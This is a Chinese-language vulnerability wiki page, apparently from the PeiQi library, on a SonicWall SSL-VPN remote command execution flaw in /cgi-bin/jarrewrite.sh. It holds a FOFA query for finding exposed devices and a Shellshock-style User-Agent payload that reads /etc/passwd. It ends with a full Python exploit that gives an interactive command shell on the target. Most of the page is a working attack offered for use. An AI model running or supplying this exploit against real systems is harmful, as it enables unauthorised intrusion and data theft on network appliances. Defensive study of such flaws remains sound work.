



SonicWall SSL-VPN 远程命令执行漏洞¶
漏洞描述¶
SonicWall SSL-VPN 远程命令执行在1月24日被公开 EXP，此设备存在远程命令执行漏洞
漏洞影响¶
SonicWall SSL-VPN
网络测绘¶
app="SONICWALL-SSL-VPN"
漏洞复现¶
出现漏洞的文件为 /cgi-bin/jarrewrite.sh
#!/bin/bash
# jarrewrite.sh:
# Script takes a jar/class file and a working directory; modifies class files
# within the jar and repackages them.
USAGE_STR="Usage: $0 <jar/class file> <path-to-working directory>"
# Validate number of args
if [ $# -ne 2 ]; then
echo ${USAGE_STR};
exit -1;
fi
for param in $*; do
if [ "$param" == "-h" ]; then
echo ${USAGE_STR};
exit 1;
fi
done
# constants
BOUNDARY="-------------------------------------------------------------"
BASE_DIR=/tmp
JAVA_SRC=$1
WDIR=$2
CWD=`pwd`
FULL_JAVA_SRC_PATH=${BASE_DIR}/${WDIR}/${JAVA_SRC}
CLASSES_DIR=classes
META_INF_DIR=${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF
MANIFEST=${META_INF_DIR}/MANIFEST.MF
MANIFEST_DIGEST_FILE=${META_INF_DIR}/SWALL_SIGNATURE.SF
SIGNATURE_FILE=${META_INF_DIR}/SWALL_SIGNATURE.DSA
CODESIGNER_CRT=./../../var/cs_cert/httprpCodeSignerX509Crt.pem
CODESIGNER_PVTKEY=./../../var/cs_cert/httprpCodeSignerPvtkey.pem
DO_SIGN=0
if [ ! -f ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi
if [ ${JAVA_SRC##*.} == "jar" ]
# Using bracket in variable substitution.
then
# organize
mkdir ${BASE_DIR}/$WDIR/$CLASSES_DIR
# unzip jar
unzip -d ${BASE_DIR}/${WDIR}/${CLASSES_DIR} ${FULL_JAVA_SRC_PATH};
# Simple sanity check to see if the JAR has already been signed.
# FIXME: This is not a complete check,because the original JAR signature
# has to be verified completely otherwise a malicious applet
# could access the local resources with SSL VPN signing it.
old_sf_files=`/bin/ls ${META_INF_DIR}/*.[sS][fF] `
old_sign_files=`/bin/ls ${META_INF_DIR}/*.[rRdD][sS][aA] `
for sf_file in $old_sf_files
do
for sign_file in $old_sign_files
do
DO_SIGN=1;
break
done;
break;
done
# remove all manifest info including signatures
# remove all that match mf|MF|sf|SF or dsa|DSA|rsa|RSA
rm -f ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.[sSmM][fF] ${BASE_DIR}/${WDIR}/${CLASSES_DIR}/META-INF/*.?[sS][aA]
OUTPUT_JAR="${FULL_JAVA_SRC_PATH}"
classfiles=`/usr/bin/find ${BASE_DIR}/${WDIR}/${CLASSES_DIR} -type f`
#New Manifest file
MANIFEST_MAIN_ATTR="Manifest-Version: 1.0\nCreated-By: 1.0 (SonicWALL Inc.)\n"
echo -e "Creating Manifest file ... "
echo -e ${MANIFEST_MAIN_ATTR} > ${MANIFEST}
for file in $classfiles
do
echo $BOUNDARY
echo $file
echo $BOUNDARY
./jdasm $file $file
#Update manifest file
SHA1_MANIFEST_ENTRY_CLASS=`openssl dgst -sha1 -binary $file | openssl base64`
MANIFEST_ENTRY="Name: ${file##${BASE_DIR}/${WDIR}/${CLASSES_DIR}/}\nSHA1-Digest: ${SHA1_MANIFEST_ENTRY_CLASS}\n"
echo -e ${MANIFEST_ENTRY} >> ${MANIFEST}
echo $BOUNDARY
done
if [ ${DO_SIGN} == 1 ]; then
echo -e "Creating Manifest Signature file and Signature block" >> $OUTLOG
/usr/sbin/sw_jarsigner -m ${MANIFEST} -s ${MANIFEST_DIGEST_FILE} -S ${SIGNATURE_FILE} -c ${CODESIGNER_CRT} -k ${CODESIGNER_PVTKEY}
fi
rm -f ${FULL_JAVA_SRC_PATH}
cd ${BASE_DIR}/${WDIR}/${CLASSES_DIR};
zip -r ${OUTPUT_JAR} *
cd ${CWD}
# clean
rm -Rf ${BASE_DIR}/${WDIR}/${CLASSES_DIR}
elif [ ${JAVA_SRC##*.} == "class" ]; then
# if file is a class
if [ ! -e ${FULL_JAVA_SRC_PATH} ];then
echo "File not found: ${FULL_JAVA_SRC_PATH}";
exit -2;
fi
./jdasm ${FULL_JAVA_SRC_PATH} ${FULL_JAVA_SRC_PATH};
fi
echo "Recursive Class Rewrite Completed."
exit 0;
这个文件存在命令注入漏洞，漏洞触发在 Usage-Agent
发送如下请求即可命令执行

GET https://xxx.xxx.xxx.xxx/cgi-bin/jarrewrite.sh
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
发送请求会下载一个文件，文件内容为命令执行的结果

漏洞POC¶
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: SonicWall SSL-VPN \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+ \033[36mCmd >>> whoami \033[0m')
print('+------------------------------------------')
def POC_1(target_url, cmd):
vuln_url = target_url + "/cgi-bin/jarrewrite.sh"
headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" % (cmd)}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
print("\033[32m[o] 正在请求 {}/cgi-bin/jarrewrite.sh \033[0m".format(target_url))
if "root" in response.text and response.status_code == 200:
print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
while True:
cmd = input("\033[35mCmd >>> \033[0m")
if cmd == "exit":
sys.exit(0)
else:
POC_2(target_url, cmd)
else:
print("\033[31m[x] 请求失败 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
def POC_2(target_url, cmd):
vuln_url = target_url + "/cgi-bin/jarrewrite.sh"
headers = {"User-Agent": "() { :; }; echo ; /bin/bash -c '%s'" % (cmd)}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
cmd = 'cat /etc/passwd'
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url, cmd)
